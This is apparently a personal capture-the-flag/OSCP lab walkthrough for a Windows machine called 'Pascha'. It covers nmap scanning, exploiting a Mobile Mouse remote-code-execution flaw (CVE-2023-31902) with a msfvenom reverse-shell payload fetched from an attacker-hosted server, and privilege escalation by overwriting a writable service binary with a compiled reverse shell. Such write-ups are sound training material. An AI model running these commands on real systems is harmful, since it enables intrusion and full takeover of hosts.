







# Pascha

## Nmap

```bash
nmap -A -T4 -p 80,9099,9999 192.168.165.155
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-02 15:47 +0000
Nmap scan report for 192.168.165.155
Host is up (0.098s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
9099/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.0 200 OK 
|     Server: Mobile Mouse Server 
|     Content-Type: text/html 
|     Content-Length: 321
|_    <HTML><HEAD><TITLE>Success!</TITLE><meta name="viewport" content="width=device-width,user-scalable=no" /></HEAD><BODY BGCOLOR=#000000><br><br><p style="font:12pt arial,geneva,sans-serif; text-align:center; color:green; font-weight:bold;" >The server running on "OSCP" was able to receive your request.</p></BODY></HTML>
9999/tcp open  abyss?
```

## Exploit

```bash
searchsploit Mobile Mouse

#Results
Mobile Mouse 3.6.0.4 - Remote Code Execution (RCE)                                                                                                                                                                                                                                       | windows/remote/51010.py

searchsploit -m 51010.py 

#Attempt to run script
python2 51010.py 192.168.165.155 9099
  File "51010.py", line 41
    download_string= f"curl http://{lhost}:8080/{command_shell} -o
                                                                 ^
SyntaxError: EOL while scanning string literal
----------------
# This indicates i need to host a server on 8080, serving a command shell
```

## Create Shell | host file | Set up Listner
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.244 LPORT=9099 -f exe -o rev.exe

#Host server
python -m http.server 8080 

# Listner
nc -nvlp 9099
```
## Execute Script

```bash
# Previous screenshot tells you how to run it
python3 51010.py --target 192.168.165.155 --lhost 192.168.45.244 --file rev.exe

#results
  File "/home/kali/oscp/OSCP_C/155/51010.py", line 41
    download_string= f"curl http://{lhost}:8080/{command_shell} -o

# Script appears to be messed up. Download a version from the internet.

wget https://github.com/blue0x1/mobilemouse-exploit
# Results
CVE-2023-31902.py  CVE-2023-31902-v2.py  CVE-2023-31902-v3.py

# rehost files at: ~/oscp/OSCP_C/155/mobilemouse-exploit-main

# Run it again
python3 CVE-2023-31902.py --target 192.168.165.155 --lhost 192.168.45.244 --file rev.exe

# Shell Established
# Grab Flag
```



## Priv Esc

```bash
# Enumerate through PowerView.ps1
# Transfer file
Invoke-WebRequest http://192.168.45.244/PowerView.ps1 -OutFile PowerView.ps1

# Load File
powershell -ep bypass

#Then 
. .\PowerView.ps1

# Enumerating running services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# Results: Two interesting file
"C:\Program Files (x86)\Bonjour\mDNSResponder.exe" 
"C:\Program Files\MilleGPG5\GPGService.exe"

# Check permissions
icacls "C:\Program Files\MilleGPG5\GPGService.exe"

#Results
C:\Program Files\MilleGPG5\GPGService.exe BUILTIN\Users:(R)
                                          BUILTIN\Users:(I)(M)
                                          NT AUTHORITY\SYSTEM:(I)(F)
                                          BUILTIN\Administrators:(I)(F)
                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

#NOTE: Modify is available on GPGService.exe
```


## Create Shell


```bash
nano shell.c
```

## Compile shell with rename
```bash
x86_64-w64-mingw32-gcc shell.c -o GPGService.exe -lws2_32
```

## Stop the running service
```bash
net stop GPGOrchestrator
```


## Start Listner
```bash
nc -nvlp 4444
```

## Transfer File
```bash
Invoke-WebRequest http://192.168.45.244/GPGService.exe -OutFile "C:\Program Files\MilleGPG5\GPGService.exe"

#Success
```

## Start Service and Establish Shell

```bash
net start GPGOrchestrator

# Check Listner
# Shell Established
# Grab Flag
```
